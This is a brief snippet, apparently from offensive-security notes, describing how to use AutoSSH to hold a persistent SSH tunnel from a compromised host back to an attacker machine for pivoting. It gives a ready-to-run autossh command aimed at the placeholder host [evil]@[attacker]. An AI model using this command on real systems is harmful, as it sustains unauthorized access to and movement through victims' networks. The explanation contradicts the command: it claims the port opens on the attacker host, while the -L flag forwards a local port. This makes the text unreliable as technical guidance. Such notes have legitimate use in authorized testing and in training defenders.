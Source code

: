 [AutoSSH](http://www.harding.motd.ca/autossh/) is a tool that allows you to automatically restart SSH sessions and tunnels. The following line will open port 2222 on host attacker and tunnel it to the compromised host on port 22. You would then be able to setup a dynamic SSH SOCKS proxy and connect to localhost:2222 and be able to forward through the compromised host as normal.

autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -L 2222:localhost:22 [evil]@[attacker]

References
----------
